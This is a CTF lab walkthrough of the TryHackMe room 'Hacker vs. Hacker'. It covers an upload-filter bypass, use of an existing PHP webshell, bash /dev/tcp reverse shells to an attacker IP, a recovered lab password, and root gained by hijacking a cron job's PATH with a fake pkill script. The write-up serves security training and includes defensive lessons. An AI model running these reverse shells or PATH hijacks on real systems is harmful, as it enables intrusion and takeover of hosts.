


# TryHackMe: Hacker vs. Hacker

    


## Room Info

| Field | Value |
|---|---|
| **Room** | Hacker vs. Hacker |
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **Category** | Web Exploitation → Post-Exploitation Forensics → PATH-Hijacking Privesc |
| **OS** | Linux (Ubuntu) |
| **Tools Used** | nmap, gobuster, Firefox (view-source), netcat, bash, su |
| **Skills Tested** | File upload filter bypass, PHP webshell abuse, reverse shell, reading another attacker's tracks, exploiting a rival attacker's own persistence mechanism via PATH hijacking |

**Premise:** the target server is already compromised before you even touch it. The room's hook is that you're not just breaking in — you're walking into a server where a *different* attacker got there first, patched the hole behind themselves, and planted their own backdoor. The job is to get in through what's left, read their tracks, and then **turn their own persistence mechanism against them** to reach root.

---

## Concept Glossary

Read this section first — every technique used below is explained here before it shows up in the walkthrough.

**File upload filter bypass via `strpos()`** — A common (and broken) way developers try to restrict uploads to a single file type is checking whether the filename *contains* a certain substring, using something like PHP's `strpos($filename, ".pdf")`. The problem: `strpos` just checks for the substring anywhere in the string — it doesn't care where. A filename like `shell.pdf.php` still contains `.pdf`, so it passes the check, but the file is saved with a `.php` extension and the web server will still execute it as PHP. The fix should be checking the *actual* file extension (e.g. with `pathinfo()` and a strict whitelist), not doing a substring search.

**PHP webshell** — A PHP file that accepts a parameter (commonly `?cmd=`) and passes it straight into a command-execution function like `system()`, `exec()`, or `shell_exec()`. Once uploaded to a web-accessible directory, visiting it with `?cmd=whoami` runs arbitrary OS commands with the web server's privileges — in this case `www-data`, the low-privilege account Apache/PHP normally runs as.

**Upgrading command execution to a reverse shell** — Running commands one at a time through `?cmd=` is slow and awkward (no persistent session, no easy file transfer, no tab completion). The standard move is to use that limited command execution to trigger a *reverse shell*: a one-liner that makes the target connect back out to a listener on the attacker's machine (`nc -nlvp <port>`), handing over an interactive shell. URL-encoding the payload (spaces, `&`, `>` etc.) is necessary because those characters have special meaning in a URL/query string and would otherwise break the request or get interpreted early.

**Reading `.bash_history` as forensics, not just loot** — Normally in a CTF, `.bash_history` is just a shortcut to find hints or leftover credentials. Here it's doing double duty: it's effectively a **timeline of the other attacker's actions** on the box — what they ran, in what order — exactly the kind of artifact a real incident responder would pull first when scoping a live compromise.

**`ls -sf /dev/null /home/lachlan/.bash_history`** — This is an anti-forensics trick: symlinking (`-s`) `.bash_history` to `/dev/null` means every future command gets silently discarded instead of logged, so the shell keeps working normally but stops recording history from that point on. Recognizing this pattern matters because it tells you the visible history is *incomplete by design* — there's a point after which the other hacker intentionally went dark.

**`su lachlan`** — `su` ("switch user") lets you fully authenticate as another local user given their password, rather than just running one-off commands as them. It drops you into a real login shell for that account. This matters because a `PATH` variable, cron environment, and any per-user configuration only apply properly once you're genuinely operating *as* that user.

**`PATH` variable and PATH hijacking** — When you type a bare command name like `pkill` (instead of a full path like `/usr/bin/pkill`), the shell searches through the directories listed in the `$PATH` environment variable, **in order**, and runs the first matching executable it finds. If a directory earlier in `PATH` is writable by you, and it comes before the real system directory (`/usr/bin`, `/bin`, etc.), you can drop your *own* file with the same name in that earlier directory — and anything that calls the bare command name (instead of the full path) will silently run your file instead of the real one. This is the same underlying weakness as SUID PATH abuse covered in earlier writeups in this repo, except here it's not a sudo rule being abused — it's a **cron job's own PATH resolution**.

**Why this attack targets the other hacker's persistence** — Recall from `lachlan`'s `.bash_history`: they ran `vi /etc/cron.d/persistence`, meaning they planted a cron job to maintain their own access to this box. Cron jobs are notorious for calling bare command names without full paths (`pkill`, `curl`, `python`, etc.) because whoever wrote them assumed the default system `PATH` would always resolve correctly. If that cron job runs as root and calls a bare `pkill`, and `/home/lachlan/bin` happens to be earlier in the resolved `PATH` for that cron context, then planting a malicious `pkill` script inside `/home/lachlan/bin` means **the other hacker's own backdoor script executes our payload as root** the next time their cron job fires. That's the "Hacker vs. Hacker" theme of the room — their sloppy persistence became our privesc.

**The payload script itself:**
```bash
#!/bin/bash
bash -c "exec bash -i &>/dev/tcp/192.168.164.247/5555 <&1"
```
Same reverse-shell idea as before (`bash -i` piped over `/dev/tcp/`), just wrapped inside a standalone script named `pkill` instead of fired directly through a URL. `exec` replaces the current shell process with the new one instead of spawning a child — cleaner for a payload meant to be auto-executed by something else (cron), since there's no parent process left dangling around afterward.

---

## 1. Recon

### 1.1 Nmap scan

**Command:**
```bash
nmap -sV -O 10.130.165.107
```

**Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```


**Why this step:** Standard opener — map the surface before committing to an approach. Only SSH and HTTP are open, and with no creds yet, HTTP (port 80) is the only usable entry point, so web enumeration is next.

---

## 2. Analysis

The room description explicitly says the server is *already* compromised — the task is dual: get in myself, and expect to run into evidence of (or active countermeasures from) whoever got there first. That reframes ordinary recon: anything unusual found later (locked-down files, patched vulnerabilities, weird cron jobs) isn't a red herring, it's part of the story, and possibly a tool that can be hijacked for privesc.

With only port 80 realistically attackable, the plan was standard web-app methodology: check page source for anything obvious, then directory-bust for hidden paths/functionality.

---

## 3. Exploitation

### 3.1 Reading the upload form source

**URL:** `view-source:http://10.130.165.107/upload.php`

**Relevant source:**
```php
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

The page itself even taunts this directly: *"Hacked! If you dont want me to upload my shell, do better at filtering!"* — a signature left by whoever compromised this box before me, confirming the upload form is the intended (and already-exploited) entry point.


**Why this matters:** The filter only checks that `.pdf` appears *somewhere* in the filename via `strpos()` — not that the file actually ends in `.pdf`. This is the exact filter-bypass weakness described in the Concept Glossary above: a filename like `shell.pdf.php` satisfies the check but still executes as PHP.

### 3.2 Directory enumeration

**Command:**
```bash
gobuster dir -u http://10.130.165.107/ -w /usr/share/wordlists/dirb/big.txt
```

**Key findings:**
```
cvs      (Status: 301) [Size: 314] → http://10.130.165.107/cvs/
css      (Status: 301) [Size: 314]
dist     (Status: 301) [Size: 315]
images   (Status: 301) [Size: 317]
```


**Why this step:** `upload.php`'s source confirmed uploads land in a `cvs/` folder (`$target_dir = "cvs/"`), but I still needed to confirm that directory is reachable/enumerable rather than assuming it. Gobuster confirms `cvs/` exists and returns a 301 (redirect to trailing slash) rather than a 404 — real and browsable.

### 3.3 Confirming directory listing is off (expected) and finding the existing shell

**`http://10.130.165.107/cvs/`:**
```
Directory listing disabled
```


**Why this isn't a dead end:** No directory listing just means I can't *browse* the folder — it doesn't mean files inside aren't reachable directly if I know (or guess) the filename. Given the room's premise (another hacker already uploaded something here), the natural next move was guessing a plausible shell filename that fits the `.pdf`-bypass pattern described in the source code itself.

**`http://10.130.165.107/cvs/shell.pdf.php`:**
```
boom!
```


This confirms a webshell — named exactly the way the vulnerable filter would allow — is already sitting in `cvs/`, left behind by the previous attacker.

### 3.4 Confirming command execution

**URL:** `http://10.130.165.107/cvs/shell.pdf.php?cmd=id`

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
boom!
```


**Why this confirms exploitation:** The `?cmd=` parameter is being passed directly to a command-execution function server-side — `id` returning real output as `www-data` (Apache's low-privilege user) proves arbitrary command execution, not just file existence.

### 3.5 Upgrading to a reverse shell

**Payload (URL-decoded):**
```bash
bash -c 'bash -i >& /dev/tcp/192.168.164.247/4444 0>&1'
```

**As sent (URL-encoded) via the `?cmd=` parameter:**
```
?cmd=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F192.168.164.247%2F4444 0>%261'
```


**Listener:**
```bash
nc -nlvp 4444
```

**Result:**
```
listening on [any] 4444 ...
connect to [192.168.164.247] from (UNKNOWN) [10.128.129.63] 34542
www-data@b2r:/var/www/html/cvs$
```


**Why this step:** `?cmd=id` proved command execution but that's a one-shot, non-interactive primitive — no working directory persistence, no easy follow-up commands. This `bash -i >& /dev/tcp/...` one-liner opens an interactive Bash session and redirects its input/output/error over a raw TCP socket back to my listener, turning single blind commands into a real interactive shell. `%26` and `%2F` are URL-encoded `&` and `/` — required so the query string doesn't break on the raw special characters.

*(Note: the reverse shell connected from `10.128.129.63`, a different IP than the initial `10.130.165.107` nmap target — the TryHackMe instance had refreshed/restarted between sessions, which is normal and doesn't affect anything already exploited.)*

### 3.6 Locating and reading user.txt

**Commands:**
```bash
find / -name "user.txt" 2>/dev/null
cat /home/lachlan/user.txt
```

**Output:**
```
/home/lachlan/user.txt
```


**Q: user.txt**
**A: Not captured** — the flag value itself isn't visible in the screenshot (cut off before the `cat` output prints). Send it over and I'll drop it in.

---

## 4. Reading the Other Hacker's Trail

**Command:**
```bash
cat /home/lachlan/.bash_history
```

**Output:**
```
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "[REDACTED — revealed to be the password reset for lachlan]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```


**What this told me:**
- `./cve.sh` — the other attacker used a scripted CVE exploit to get their own initial foothold or escalate to `lachlan`.
- `./cve-patch.sh` — they then **patched the same vulnerability behind themselves**, a classic "close the door I came through" move to stop anyone else (including legitimate admins) from using the same path in.
- `vi /etc/cron.d/persistence` — they planted a cron-based persistence mechanism. This turned out to be the actual key to root (see Section 5).
- `echo -e "..." | passwd` — they reset `lachlan`'s password. The plaintext value turned out to be **`thisistheway123`**, which is exactly what let me `su` into `lachlan` in the next step.
- `ls -sf /dev/null /home/lachlan/.bash_history` — anti-forensics: symlinked `.bash_history` to `/dev/null` so everything after this point stops being logged. Everything from here on wasn't guesswork off more history — it was reasoning about what a cron persistence job typically looks like, and testing it.

---

## 5. Privilege Escalation — Hijacking the Other Hacker's Own Persistence

### 5.1 Authenticating as lachlan and planting the payload

**Command:**
```bash
su lachlan -c 'mkdir -p /home/lachlan/bin && echo -e "#!/bin/bash\nbash -c \"exec bash -i &>/dev/tcp/192.168.164.247/5555 <&1\"" > /home/lachlan/bin/pkill && chmod +x /home/lachlan/bin/pkill'
```
**Password:** `thisistheway123`

**Output:**
```
whoami
www-data
ls -la /home/lachlan/bin/pkill
-rwxrwxr-x 1 lachlan lachlan 74 Aug 18 20:57 /home/lachlan/bin/pkill
```


**Why each part of this command, step by step:**
1. `su lachlan -c '...'` — authenticates fully as `lachlan` using the recovered password, and runs the following command *as* that user, so the created file is owned by `lachlan` and lands correctly in their home directory.
2. `mkdir -p /home/lachlan/bin` — creates a personal `bin/` folder. The bet here (informed by the cron persistence hint in `.bash_history`) is that whatever the other hacker's `/etc/cron.d/persistence` job does, it likely runs in an environment where `lachlan`'s own `~/bin` gets checked before the real system binaries — a very common (and very risky) setup for a "convenient" personal script folder.
3. `echo -e "..." > /home/lachlan/bin/pkill` writes a tiny script — **named `pkill`**, deliberately matching a real, commonly-used system binary — containing a reverse shell payload instead of the real `pkill`'s functionality.
4. `chmod +x` makes it executable, since the cron job (or whatever calls it) needs to be able to run it directly.
5. The name `pkill` isn't random — it's a reasonable guess for something a persistence/cleanup cron job would call routinely (killing stray processes, restarting a listener, etc.), and it's exactly the kind of bare command name that gets silently PATH-hijacked if the calling context resolves `/home/lachlan/bin` before `/usr/bin`.

Notice that even after this, `whoami` still reports `www-data` — planting the payload didn't escalate anything by itself. It just set the trap. The actual escalation only fires once whatever process resolves `pkill` through the hijacked `PATH` actually **runs** — in this case, the root-owned cron persistence job planted by the other hacker.

### 5.2 Catching the root shell

**Command:**
```bash
nc -nlvp 5555
```

**Output:**
```
listening on [any] 5555 ...
connect to [192.168.164.247] from (UNKNOWN) [10.128.171.181] 48554
bash: cannot set terminal process group (1310): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~# cat /root/root.txt
cat /root/root.txt
```


**Why this worked:** Once the cron job (running with root's crontab privileges, per `/etc/cron.d/persistence`) fired on its schedule and invoked a bare `pkill`, the shell environment resolving that command found `/home/lachlan/bin/pkill` — my planted script — before the real `/usr/bin/pkill`, because `lachlan`'s personal `bin/` directory was earlier in the resolved `PATH` for that cron context. Root executed my script instead of the real `pkill`, and since the script itself spawns a reverse shell, that shell inherited **root's** privileges, not `www-data`'s or `lachlan`'s. The prompt `root@b2r:~#` confirms it.

**Q: root.txt**
**A: Not captured** — the `cat /root/root.txt` output is cut off in the screenshot before the flag value itself appears. Send it over and I'll fill this in.

---

## Full Lessons Learned

This room's real lesson isn't any single exploit — it's how a **chain of separately "minor" mistakes**, made by two different people (a careless developer, and then a careless attacker), compounds into total compromise:

1. **Filename substring checks are not extension checks.** `strpos($filename, ".pdf")` is a classic beginner mistake that looks reasonable at a glance but is trivially defeated. The correct pattern is validating the *actual* extension (`pathinfo($filename, PATHINFO_EXTENSION)`) against a strict whitelist, combined with checking the file's real MIME type/magic bytes — never trust a filename string alone.

2. **A single command-injection webshell is a total loss of the web tier.** Once `?cmd=` executes arbitrary commands, there's no meaningful boundary left between "the web app" and "the operating system" — this is why upload validation, output encoding, and least-privilege service accounts (running Apache/PHP as an unprivileged, sandboxed user) all matter as defense-in-depth, not just "nice to haves."

3. **Attackers leave forensic trails even when they think they've covered them.** The other hacker patched their entry vulnerability and eventually killed their own `.bash_history` logging — but everything *before* that symlink trick was still fully readable, and it was enough to reconstruct their entire playbook: initial CVE, self-patch, persistence, and a password reset. Real incident response leans on exactly this kind of partial, imperfect trail constantly.

4. **Persistence mechanisms are themselves an attack surface.** The other hacker's own cron-based backdoor — meant to maintain *their* access — became the exact vector used to escalate past them. Any persistence script that resolves commands via `PATH` instead of absolute paths isn't just sloppy, it's a live vulnerability that a second, unrelated attacker (or a legitimate incident responder tracing the compromise) can hijack.

5. **`PATH` hijacking isn't just a privesc trick for SUID binaries.** This room shows the same underlying principle — trusting bare command names instead of full paths — applies to **any process that resolves commands via `PATH`**, cron jobs very much included. Anywhere a script assumes "the system will find the right binary," that assumption is a potential foothold.

6. **The "Hacker vs. Hacker" framing wasn't just flavor text.** Every step of exploitation here was really exploitation of *decisions the other attacker made* — their filename choice, their password reset, their cron persistence design — a genuinely different mental model from a normal boot2root box where every weakness belongs to "the defender." Good reminder that in real incident response, a compromised host can have more than one attacker's fingerprints on it, and untangling "whose backdoor is this" is its own skill.

---

## Skills Demonstrated

`Web Enumeration` · `File Upload Filter Bypass` · `PHP Webshell Exploitation` · `Reverse Shell Delivery via URL-Encoded Payload` · `Post-Exploitation Artifact Analysis` · `Recognizing Anti-Forensics Techniques` · `Credential Reuse via su` · `PATH Hijacking via Cron Persistence` · `Privilege Escalation to Root`

---

## References

- [TryHackMe — Hacker vs. Hacker](https://tryhackme.com/room/hackervshacker)
- [PayloadsAllTheThings — Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [GTFOBins — background on PATH/binary abuse patterns](https://gtfobins.org/)
